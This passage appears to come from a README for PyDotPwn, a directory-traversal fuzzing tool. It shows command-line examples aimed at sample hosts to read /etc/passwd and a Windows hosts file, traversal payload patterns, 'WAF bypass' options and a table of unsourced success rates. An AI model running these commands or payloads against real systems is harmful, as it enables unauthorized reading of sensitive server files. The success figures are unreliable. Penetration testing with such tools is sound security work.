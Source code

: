 ## 🎯 Usage Examples

### Basic Path Validation Bypass Testing

```bash
# Test with standard depth
python dotdotpwn.py -m http -h target.com -f /etc/passwd --depth 3

# Generate all path validation patterns
python dotdotpwn.py main --module stdout --os-type unix --file "/etc/passwd" --depth 3
```

### Advanced WAF Bypass Testing

```bash
# Test with maximum encoding depth
python dotdotpwn.py -m http -h protected.com -f /etc/passwd --depth 5

# Windows-specific path validation bypass
python dotdotpwn.py -m http -h windows-app.com -f "C:\Windows\System32\drivers\etc\hosts" --depth 4
```

### Enterprise Application Testing

```bash
# Test common web application structures
python dotdotpwn.py -m http -h enterprise.com -f /etc/passwd --depth 6

# Test with custom delay for rate limiting
python dotdotpwn.py -m http -h careful-target.com -f /etc/passwd --delay 2.0 --depth 4
```

## 📊 Real-World Impact

### Pattern Coverage Comparison

```
Traditional Directory Traversal:
├── Basic patterns: ../../../etc/passwd (12 variations)
├── Encoding: %2e%2e%2f patterns (48 variations)
└── Total: ~60 patterns per target file

PyDotPwn Path Validation Bypass:
├── Basic patterns: ../../../etc/passwd (12 variations)
├── Encoding: %2e%2e%2f patterns (48 variations)
├── Path validation: /var/www/*/../../etc/passwd (25,000+ variations)
└── Total: 25,000+ patterns per target file
```

### Enterprise Success Rate

| Application Type | Traditional Success | PyDotPwn Success |
|------------------|-------------------|------------------|
| **Legacy Applications** | 85% | 95% |
| **Modern Frameworks** | 15% | 75% |
| **WAF-Protected** | 5% | 60% |
| **Path-Validated** | 0% | 80% |
